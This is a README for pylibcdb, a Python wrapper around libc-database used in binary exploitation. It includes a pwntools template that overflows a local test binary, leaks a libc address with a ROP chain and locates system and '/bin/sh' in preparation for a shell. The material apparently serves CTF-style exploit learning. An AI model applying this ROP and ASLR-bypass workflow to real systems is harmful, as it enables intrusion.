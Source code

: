 # pylibcdb

pylibcdb is a python>=3.7 [libc_database](https://github.com/niklasb/libc-database) wrapper, its purpose is to improve exploit development tasks like ASLR bypass with an unknown libc.

With time i'd like to add more features and automated useful functions, for now this is the basic version.

### Requirements

There aren't python dependeces for now, but you need to install [libc_database](https://github.com/niklasb/libc-database) locally.

### Context

- x86_64 Linux

### Installation
```bash
git clone https://github.com/Neetx/pylibcdb
cd pylibcdb
python setup.py install
```

### Basic usage

```python
from pylibcdb import LibcDB

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address("0x7fe7ac9a7fc0") #leaked __libc_start_main
print(libc_name)
libc_path = libcdb.download_by_name(libc_name)
print(libc_path)
```

```
libc6_2.31-0ubuntu9.1_amd64
/path/to/your/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/libc-2.31.so
```
This .so can be easily analyzed (or used with [pwntools](https://github.com/Gallopsled/pwntools) ELF()) to discovery function addresses and build a ROP chain.
In this way there's no need to launch "find" and "download" scripts manually with several copy-paste.

#### A more detailed example

```python
from pwn import *
from pylibcdb import LibcDB

p = process("./vuln_test")
elf = ELF("./vuln_test")
rop = ROP(elf)

puts = elf.plt['puts']
main = elf.symbol['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

base_payload = "A"*32 + "B"*8    #this must change for every target binary
rop = base_payload.encode() + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(main)

p.sendline(rop)   #this sending and receiving changes for every target binary
received = p.recvline().strip()
leak = u64(received.ljust(8, "\x00".encode()))

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address(leak) #leaked __libc_start_main
libc_path = libcdb.download_by_name(libc_name)

libc = ELF(libc_path)
libc.address = leak - libc.sym["__libc_start_main"]

binsh = next(libc.search("/bin/sh".encode()))
system = libc.sym["system"]
```

At this point we have all we need to craft a final ROP chain and get shell. This is a workflow example in facts things may (sure) change for each scenario, but the idea is to not let target binary crashes and not stop the exploit execution to launch libc-database scripts manually.

Later I will release a complete and working example with a vulnerable binary.

#### Scripts
Without this library you have to launch:
```
./find __libc_start_main LEAKED_ADDRESS
./download LIBC_NAME_OUTPUT
```
And then you have to copy the shared object to your working directory or to use its absolute path.

### Contacts

[neetx](neetx@protonmail.com)